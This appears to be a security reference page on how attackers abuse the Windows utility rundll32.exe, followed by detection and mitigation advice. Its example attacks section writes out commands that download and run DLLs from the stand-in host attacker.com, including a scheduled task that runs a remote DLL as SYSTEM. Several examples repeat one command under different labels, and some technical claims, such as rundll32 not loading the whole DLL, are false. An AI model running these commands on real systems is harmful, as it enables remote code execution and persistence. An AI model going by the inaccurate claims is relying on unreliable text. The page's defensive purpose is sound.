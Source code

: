 # rundll32.exe
## What is it?
*```rundll32.exe``` is a legitimate Windows utility that is used to execute functions stored in dynamic link library (DLL) files.*
*It allows users and programs to call exported functions from DLLs without needing to load the entire DLL into memory.*
*Although it's a trusted Windows process, attackers often exploit it for executing malicious code, as it can bypass many security restrictions.*

## Legitimate Usage
- **Executing DLL Functions** → Call functions stored in DLLs that are required for system operations or application functionality.
- **System Configuration & Management** → Used to run certain Windows management scripts or components.
- **Application Initialization** → Many applications use ```rundll32.exe``` to load settings or start processes during startup.
- **Troubleshooting & Repair** → Administrators may use rundll32 to invoke repair functions from system DLLs.

## How to abuse it
- **Bypassing Execution Restrictions** → Attackers can use ```rundll32.exe``` to execute malicious DLLs, bypassing application whitelisting or execution controls.
- **Fileless Malware Execution** → It can be used to execute malicious payloads directly from memory, without writing them to disk.
- **Persistence Mechanism** → Attackers can exploit ```rundll32.exe``` to ensure persistence, as it's often whitelisted by security tools.
- **Privilege Escalation** → Malicious functions in DLLs can be invoked to elevate privileges or perform unauthorized actions on a system.

## Example attacks
### 1. Executing Malicious DLL
*Attackers can use ```rundll32.exe``` to execute a malicious function within a DLL, which could result in malware execution or system compromise.*
**Execute Malicious DLL**

```
rundll32.exe http://attacker.com/malicious.dll,EntryPoint
```

**Effect:**
- Executes a malicious function in a remote DLL, potentially installing malware or compromising the system.

### 2. Fileless Malware Execution
*Since rundll32 can execute code from memory, attackers can bypass file-based security checks.*
**Execute Malicious DLL from Memory**

```
rundll32.exe http://attacker.com/malicious.dll,EntryPoint
```

**Effect:**
- Malicious DLL is executed directly from memory, avoiding detection by file-based security software.

### 3. Persistence via Scheduled Task
*Attackers can use ```rundll32.exe``` in conjunction with a scheduled task to maintain persistence on a system.*
**Schedule Malicious DLL Execution**

```
schtasks /create /tn "MaliciousTask" /tr "rundll32.exe http://attacker.com/persistence.dll,EntryPoint" /sc daily /ru SYSTEM
```

**Effect:**
- Ensures that the malicious DLL is executed daily, allowing attackers to maintain control over the system.

### 4. Bypassing Application Whitelisting (AppLocker)
*Since ```rundll32.exe``` is a trusted system utility, attackers can use it to bypass application whitelisting or software restriction policies.*
**Bypass AppLocker to Execute Payload**

```
rundll32.exe http://attacker.com/payload.dll,EntryPoint
```

**Effect:**
- Executes a malicious payload using a whitelisted utility, bypassing security controls like AppLocker or SRP.

### 5. Remote Code Execution
*Attackers can use ```rundll32.exe``` to execute a DLL hosted on a remote server, allowing remote code execution.*
**Execute Remote Payload**

```
rundll32.exe http://attacker.com/remote_payload.dll,EntryPoint
```

**Effect:**
- Executes code hosted on an external server, enabling remote control over the target system.

# Detection & Mitigation
## Detection Methods
**Monitor rundll32 Executions**
- **Event ID 4688 (Process Creation)** → Detect when ```rundll32.exe``` is executed, especially when used with unusual DLLs or remote locations.
- **Analyze Function Calls** → Watch for suspicious function calls being executed from non-standard DLLs or IP addresses.
- **Fileless Execution Detection** → Detect executions of DLLs directly from memory or network locations.

**Monitor Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect when a scheduled task attempts to execute ```rundll32.exe``` with potentially malicious arguments.

**Network Traffic Monitoring**
- **Monitor HTTP/HTTPS Traffic** → Look for unusual HTTP requests to download DLLs or other executable files, which may indicate malicious activity.

## Mitigation Strategies
- **Restrict rundll32 Access** → Use AppLocker or Device Guard to block or limit the use of ```rundll32.exe``` to authorized users and processes.
- **Block Remote Execution** → Use firewalls to prevent communication with untrusted external sources, limiting the ability to download and execute remote DLLs.
- **Disable Unnecessary Services** → Disable or limit the use of services that rely on ```rundll32.exe``` for legitimate operations, if they are not necessary.
- **Use Endpoint Protection Software** → Deploy security software capable of detecting unusual behavior associated with ```rundll32.exe``` and blocking unauthorized executions.
- **Regularly Review Scheduled Tasks** → Regularly audit and review scheduled tasks for any suspicious activity or unexpected execution of rundll32.
